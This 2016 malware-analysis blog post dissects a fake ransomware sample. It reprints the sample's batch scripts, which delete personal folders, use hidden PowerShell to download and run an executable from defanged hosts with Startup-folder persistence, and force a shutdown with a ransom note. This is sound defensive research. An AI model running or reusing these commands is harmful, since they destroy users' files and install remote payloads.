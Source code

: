 ```yaml
---
title: "Malware: A Look Into Fake Cryptoware"
categories: blog
tags: [malware]
date: 2016-05-24T16:20:35-04:00
---
```


Ransomware has been picking up what seems to be a lot of attention within the past couple of months, with some adversaries even getting payment from some corporations. During my normal routines I've come across a fair amount of variants from Cryptowall, Teslacrypt, Locky, etc. I can now say that I've had a chance to look at fake ransomware, and honestly, I have a hard time determining if it's an amazing idea or just so basic that adversaries lacking experience are able to pull it off.

### Part1
------
The initial attack vector was an e-mail with a link which takes you to a download for an executable. When sandboxing the sample, you're able to determine that some additional files are dropped upon execution, one of which is a .bat file.

### First .bat content [C:\Users\User\AppData\Local\Temp\XXX.tmp\XXX.bat]

Lets break down the first important thing noticed.

The adversary reverses the right/left-click buttons for the mouse

```bat
@shift /0
@ echo off
rem ---------------------------------
rem Swap Mouse Buttons
RUNDLL32 USER32.DLL,SwapMouseButton
rem ---------------------------------
```

They then proceed to iterate through some of the folders most likely to contain personal information a end-user would want back, then delete all the items within the folder. I shortened the output, just know that the following folders/drives are impacted.
Desktop, Documents, Downloads, Pictures, Music, Videos, Contacts, Favorites, Searches, Recycle bin, Temp, A:, B:, D:, E:, F:, G:, H:

```bat
@echo off
set folder="%USERPROFILE%\Desktop\*"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)

@echo off
set folder="%USERPROFILE%\Documents\*"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)

@echo off
set folder="%USERPROFILE%\Downloads\*"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)

@echo off
set folder="%USERPROFILE%\Pictures\*"
cd /d %folder%
for /F "delims=" %%i in ('dir /b') do (rmdir "%%i" /s/q || del "%%i" /s/q)

[SNIPPED]
```


They proceed to do what I'll consider a form of calling home. A browser is launched to the web address specified which is currently down, but potentially had an encryption message.

```bat
@echo off
start "" hXXp://10236.6te.net
```

Powershell is then invoked to download some additional files.
  - First command is used to download the common "your files have been encrypted muahahaha" image. This image is then placed on the users Desktop with the name "Files_Encrypted.jpg"
  - Second command downloads another executable (we'll look at this one as well) named "part2.exe" which is then placed to probably the most common persistent point, the startup folder, and renamed to "winrds.exe".
  - Third command downloads the instructions on how the end-user can make payment via bitcoin to retrieve the decryption key to restore all their missing files. This file is also conveniently placed on the users Desktop.

```bat
@echo off
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden \\
(New-Object System.Net.WebClient).DownloadFile('hXXp://post.eu5.org/anon.jpg','%USERPROFILE%\Desktop\Files_Encrypted.jpg'); \\
cmd /c '%USERPROFILE%\Desktop\Files_Encrypted.jpg'

@echo off
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden \\
(New-Object System.Net.WebClient).DownloadFile('hXXps://s3-us-west-2.amazonaws.com/content.tobi/part2.exe', \\
'%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup\winrds.exe'); cmd /c '%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup\winrds.exe'

@echo off
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden \\ 
(New-Object System.Net.WebClient).DownloadFile('hXXps://s3-us-west-2.amazonaws.com/content.tobi/payment_instructions.txt', \\
'%USERPROFILE%\Desktop\Payment_Info.txt'); cmd /c '%USERPROFILE%\Desktop\Payment_Info.txt'
```

![_config.yml]({{ site.baseurl }}/images/fake_crypto.png)

### Part 2
---

### Second .bat content [C:\Users\User\AppData\Local\Temp\~XXXX.bat]
So we saw that a second executable file is retrieved and placed within the Startup folder for persistence. After detonating this second sample, some of the same techniques noticed prior were used again.

Another .bat files is dropped from the executable which begins by first reversing the mouse buttons again.

```bat
@ echo off
rem ---------------------------------
rem Swap Mouse Buttons
RUNDLL32 USER32.DLL,SwapMouseButton
rem ---------------------------------
```

They then try to make sure that the interface is enabled (I suppose they are hoping the end-user is wired with the interface having a default name). IP configuration is renewed with another call out, however to a different page, "i2.html".

```bat
@echo off
netsh interface set interface "Local Area Connection" Enable
timeout /t 10 /nobreak

@Echo off
Ipconfig /renew
timeout /t 10 /nobreak

@echo off
start "" hXXp://10236.6te.net/i2.html
timeout /t 10 /nobreak
```

They again retrieve the payment instructions and place them on the Desktop.

```bat
@echo off
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden \\
(New-Object System.Net.WebClient).DownloadFile('hXXp://post.eu5.org/anon.jpg','%USERPROFILE%\Desktop\Payment_Instructions.jpg'); \\
cmd /c '%USERPROFILE%\Desktop\Payment_Instructions.jpg'
timeout /t 15 /nobreak
```

Hoping the payment info retrieval was successful again, the IP configuration is released and the local interface is disabled. However, they spelled disable wrong (Desable), so the interface doesn't get turned off.

```bat
@Echo off
Ipconfig /release
timeout /t 10 /nobreak

@echo off
netsh interface set interface "Local Area Connection" Desable
timeout /t 150 /nobreak
```
 
Last, but certainly not least, the adversary issues a 60 second restart with a message displayed to pay the ransom for file retrievals. And if you need assistance with figuring out how to pay, they have a nice support e-mail address you can contact. Service first!
 
```bat
C:\Windows\System32\shutdown.exe -s -t 60 -c "Pay Your Ransom to Get Your Files and Computer Back. Shutting Down In 60 Seconds. Email: towerweb@yandex.com for assistance."
```

### Wrap up
---
This is a simple attempt at an adversary using Ransomware with a means to also impersonate itself as Cryptoware. Typically they go hand in hand, but this is a clever fake. All personal files are explicitly deleted from disk, so if an end-user was to actually pay the adversary, no decryption key will be delivered. You'll have to resort to a file recovery method for the local hard drive. So back to my original thought, is this really better then Cryptoware? The adversary really doesn't have to stand up an infrastructure for command & control traffic, they don't have to maintain crypto keys, their malware works quicker then crypto since only deletion is taking place and not rounds of encryption, etc. I really think we'll be seeing more of these "quick wins" for the adversary within the year as a typical end-user would never know the difference.
